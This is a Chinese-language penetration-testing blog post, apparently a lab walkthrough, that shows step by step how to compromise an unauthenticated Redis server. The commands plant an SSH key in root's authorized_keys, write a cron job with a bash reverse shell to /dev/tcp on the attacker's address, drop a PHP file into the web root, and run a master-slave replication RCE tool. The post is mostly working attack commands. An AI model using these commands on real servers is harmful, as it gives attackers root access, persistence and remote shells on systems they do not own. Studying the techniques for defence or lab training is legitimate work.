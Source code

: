 ```yaml
---
title: "Redis Attack"
date: 2020-05-24T20:52:03+08:00
draft: flase
tags: [渗透测试]
categories: []
comment: true
---
```

Redis攻击
<!--more-->

# Redis攻击

- 环境搭建

*在虚拟机中搭建redis服务*
![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200524175624.png)

- 测试连接 

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200524180324.png)

## 写ssh-keygen公钥登陆

- 首先在本地生产公私钥文件

```
ssh-keygen –t rsa
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200524194700.png)

- 公钥写入 key.txt 文件

```
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > test.txt
```
![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200524195047.png)

- 连接 Redis 写入文件

```
cat test.txt | redis-cli -h 192.168.1.103 -x set crackit
redis-cli -h 192.168.1.103
config set dir /root/.ssh/
config get dir
config set dbfilename "authorized_keys"
save
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200524200329.png)

- 私钥登陆

```
ssh -i id_rsa root@192.168.1.103
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200524200456.png)

## 利用计划任务执行命令反弹shell

- 监听一个端口

```
nc -lvvp 6666
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200524200813.png)

- 写入反弹shell

```
set x "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/192.168.1.101/6666 0>&1\n\n"
config set dir /var/spool/cron/
config set dbfilename root
save
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200524201145.png)

- 反弹shell

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200524201238.png)

## WEB目录写webshell

- 写shell

```
config set dir /var/www/html/
config set dbfilename shell.php
set x "<?php phpinfo();?>"
save
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200524201441.png)

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200524201742.png)

## 基于主从复制的RCE

- 影响范围

```
Redis 4.x/5.x
```

- 工具下载地址
 
```
https://github.com/jas502n/Redis-RCE.git
```

- 主从利用

```
python redis-rce.py -r 192.168.1.103 -p 6379 -L 192.168.1.101 -f exp_lin.so
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200524204257.png)

- 原文连接

[Redis Attack](https://syst1m.com/post/redis-attack/)